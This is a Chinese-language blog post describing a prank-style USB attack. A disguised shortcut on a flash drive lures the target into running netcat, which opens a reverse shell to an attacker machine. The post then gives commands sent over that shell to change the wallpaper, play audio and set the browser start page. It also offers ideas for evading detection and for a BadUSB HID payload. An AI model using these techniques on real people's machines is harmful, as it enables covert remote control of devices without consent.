```yaml
---
layout:     post   				    
title:      一个简单无害的netcatUSB				
subtitle:    
date:       2024-08-27 				
author:     Closure 						
header-img: img/ 
catalog: true 						
tags:								
    - 安全
    - 移动设备
---
```

> 半小时速通的东西，成本0，沿用之前装机的U盘。

> 在成功监听目标设备后将进行以下操作：更换桌面壁纸、更换桌面文件图标、设置chiikawa毛毛力购买链接为默认网址、播放毛毛力音频。

> https://hackernoon.com/how-to-make-a-malicious-usb-device-and-have-some-harmless-fun

——————————

手上没有带有Phison 2303 (2251-03)微控制器的USB 3.0闪存盘，所以没法做真正意义上的BadUSB，下文提到的大概只能算是用简单的社会工程和脚本执行反向Shell，主要是诱导用户点击快捷方式(

等盘到了才正式做BadUSB，思路是把闪存盘重新编程为一个键盘恶意的HID来执行自定义的恶意操作，用Duck Encoder创建HID有效载荷嵌入固件；然后通过DriveCom工具烧录，最终想要的效果是可以模拟键盘输入执行行预设的操作。

最近在关注近源渗透方面的东西，总算明白为什么老看到曝出来hvv直接跑线下办公区接网线被逮的，毕竟就算网络层的安全性再高，物理设备的插入也可以直接干烂系统x

——————————

示例拿的[netcat](https://netcat.sourceforge.net "netcat")，理论上来说并不是恶意软件，只是一个后端工具，但是windows defender会标记成恶意软件。netcat能在目标系统上执行一个反向shell后通过攻击机的客户端连接，因为它是直接使用的物理介质所以能够绕过大部分防护措施。

USB驱动器插入后创建一个新文件夹 *毛毛力掉落的尾巴毛* ，把netcat可执行文件拖进去后创建批处理文件开始对U盘进行文件系统更改。创建文本文件，然后扩展名保存.cmd。打码部分是Ubuntu的ip地址：
![](https://github.com/DemondeLap1ace/DemondeLap1ace.github.io/raw/master/img/202408274.png)

（这个还是太简单了，想了两个基础的改进方案，一是因为标准的netcat不支持加密，但是可以用ncat加上TLS加密来通信，二是Netcat通过Base64编码命令传输；对面入侵检测系统能够识别netcat的情况下就尝试不同的工具来模拟netcat功能，下次试试Socat的内置功能。)

社工步骤是创建一个快捷方式图标并链接到隐藏目录中的恶意软件来诱导目标点击，简单的伪装极致的效果x把毛毛力的jpg转成了ico，效果如下：

![](https://github.com/DemondeLap1ace/DemondeLap1ace.github.io/raw/master/img/202408273.png)
隐藏文件夹后目标打开的视角：


运行漏洞的服务器是安装了netcat的Ubuntu，创建一个反向shell让能在Windows上执行命令。

netcat基本语法 nc [options] [hostname] [port]
- -l: 监听模式。nc 会在指定的端口上监听传入的连接。
- -p: 指定端口号（通常与 -l 选项一起使用）。
- -e: 执行指定的程序，将其输入/输出连接到 netcat 的网络连接（注意安全问题，有些实现中此选项被禁用）。
- -v: 启用详细模式，提供更多的连接信息。
- -u: 使用 UDP 协议而不是默认的 TCP。
- -z: 扫描端口而不发送任何数据（用于端口扫描）。
- -n: 禁用 DNS 查询，直接使用 IP 地址。


—————————— 

**更换壁纸**

*echo 'powershell.exe -Command "Set-ItemProperty -Path ''HKCU:Control Panel\Desktop'' -Name WallPaper -Value ''C:\path\to\mml.jpg''; RUNDLL32.EXE user32.dll,UpdatePerUserSystemParameters"' | nc <windows_ip> 4444*


**播放音频**

*echo 'start "" "C:\path\to\mml.mp3"' | nc <windows_ip> 4444*


**设置网站**
![](https://github.com/DemondeLap1ace/DemondeLap1ace.github.io/raw/master/img/202408271.png)

*echo 'powershell -command "New-ItemProperty -Path ''HKCU:\Software\Microsoft\Internet Explorer\Main'' -Name ''Start Page'' -Value ''https://chiikawamarket.jp/collections/momonga/products/4582662944312'' -Force"' | nc <windows_ip> 4444*
